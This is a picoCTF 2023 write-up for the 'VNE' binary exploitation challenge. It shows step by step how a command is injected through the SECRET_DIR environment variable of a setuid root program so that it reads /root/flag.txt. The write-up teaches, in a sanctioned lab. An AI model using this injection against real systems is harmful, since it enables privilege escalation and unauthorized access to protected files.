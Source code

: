 # VNE

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, bash, env, injection
Author: JUNIAS BONOU

Description:
We've got a binary that can list directories as root, try it out !!

ssh to saturn.picoctf.net:61680, and run the binary named "bin" once connected. 
Login as ctf-player with the password, d8819d45
 
Hints:
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls
```

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/VNE]
└─$ ssh -p 61680 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61680 ([13.59.203.175]:61680)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61680' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

And then we look for the `bin` binary mentioned in the challenge description
```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Nov  5 08:46 .
drwxr-xr-x 1 root       root          24 Aug  4 22:04 ..
drwx------ 2 ctf-player ctf-player    34 Nov  5 08:46 .cache
-rw-r--r-- 1 root       root          67 Aug  4 22:05 .profile
-rwsr-xr-x 1 root       root       18752 Aug  4 22:05 bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ 
```
Note that the `bin` binary has the [setuid](https://en.wikipedia.org/wiki/Setuid) bit set!

Ok, lets set the `SECRET_DIR` [environment variable](https://en.wikipedia.org/wiki/Environment_variable) to `/root` as suggested in the hints.

### Set the environment variable

```bash
ctf-player@pico-chall$ SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
We can list any directory of our choice as root.  
The program probable does something like `ls $SECRET_DIR`.  
Let try to verify this
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
```
Great, now we can [inject additional commands](https://en.wikipedia.org/wiki/Code_injection) in the variable to get the flag as suggested in the hints.

### Get the flag

Lets append a `cat` command and an `echo` command for easier read output
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt; cat /root/flag.txt; echo"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt; cat /root/flag.txt; echo as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
picoCTF{<REDACTED>}
ctf-player@pico-chall$ 
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Wikipedia - Code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - Environment variable](https://en.wikipedia.org/wiki/Environment_variable)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
